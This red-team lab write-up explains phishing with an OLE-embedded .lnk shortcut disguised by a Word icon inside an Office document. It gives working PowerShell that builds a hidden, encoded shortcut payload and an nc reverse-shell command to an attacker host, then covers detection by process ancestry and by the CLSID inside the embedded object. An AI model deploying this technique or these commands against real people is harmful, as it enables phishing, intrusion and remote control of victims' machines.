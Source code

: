 ```yaml
---
description: 'Phishing, Initial Access using embedded OLE + LNK objects'
---
```


# Phishing: OLE + LNK

This lab explores a popular phishing technique where attackers embed .lnk files into the Office documents and camouflage them with Ms Word office icons in order to deceive victims to click and run them. 

## Weaponization

Creating an .LNK file that will trigger the payload once executed:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
$command = 'Start-Process c:\shell.cmd'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("c:\experiments\ole+lnk\Invoice-FinTech-0900541.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
$link.arguments = "-Nop -sta -noni -w hidden -encodedCommand UwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGMAOgBcAHMAaABlAGwAbAAuAGMAbQBkAA=="
$link.save()
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Powershell payload will trigger a rudimentary NC reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the above powershell script is executed, an `.LNK` shortcut is created:

![](../../../.gitbook/assets/ole-lnk-shortcut-created.png)

Let's create a Word document that will contain the malicious shortcut that was created in the previous step:

![](../../../.gitbook/assets/ole-good-document.png)

Let's insert a new object into the document by selecting a `Package`and changing its icon source to a Microsoft Word executable:

![](../../../.gitbook/assets/ole-insert-ole-object-with-icon.png)

![](../../../.gitbook/assets/ole-change-icon.png)

Point the package to the .lnk file containing the payload:

![](../../../.gitbook/assets/ole-payload.png)

Final result:

![](../../../.gitbook/assets/ole-weaponized.png)

## Execution

Victim executing the embedded document. Gets presented with a popup to confirm execution:

![](../../../.gitbook/assets/ole-execution.png)

Once the victim confirms they want to open the file - the reverse shell comes back to the attacker:

![](../../../.gitbook/assets/ole-execution2.png)

{% file src="../../../.gitbook/assets/ole.ps1" caption="OLE+LNK Powershell Script" %}

{% file src="../../../.gitbook/assets/invoice-fintech-0900541.lnk" caption="Invoice-FinTech-0900541.lnk" %}

{% file src="../../../.gitbook/assets/completely-not-a-scam-ole+lnk.docx" caption="Phishing: OLE+Lnk MS Word Doc Package" %}

## Observations

After the payload is triggered, the process ancestry looks as expected - powershell gets spawned by winword, cmd is spawned by powershell..:

![](../../../.gitbook/assets/ole-ancestry1.png)

Soon after, the powershell gets killed and cmd.exe becomes an orphaned process:

![](../../../.gitbook/assets/ole-ancestry2.png)

Like in [T1137: Phishing - Office Macros](t1137-office-vba-macros.md), you can use rudimentary tools on your Windows workstation to quickly triage the suspicious Office document. First off, rename the file to a .zip extension and unzip it. Then you can navigate to `word\embeddings` and find `oleObject.bin` file that contains the malicious `.lnk`:

![](../../../.gitbook/assets/ole-embedded-bin.png)

Then you can do a simple `strings` or hexdump against the file and you should immediately see signs of something that should raise your eyebrow\(s\):

```csharp
hexdump.exe -C .\oleObject1.bin
```

![](../../../.gitbook/assets/ole-hexdump.png)

As an analyst, one should look for `CLSID 00021401-0000-0000-c000-000000000046` in the .bin file, which signifies that the .doc contains an embnedded .lnk file. In our case this can be observed here:

![](../../../.gitbook/assets/lnk-clsid.png)

## References

{% embed url="https://msdn.microsoft.com/en-gb/library/dd891343.aspx" %}

{% embed url="https://adsecurity.org/wp-content/uploads/2016/09/DerbyCon6-2016-AttackingEvilCorp-Anatomy-of-a-Corporate-Hack-Presented.pdf" %}

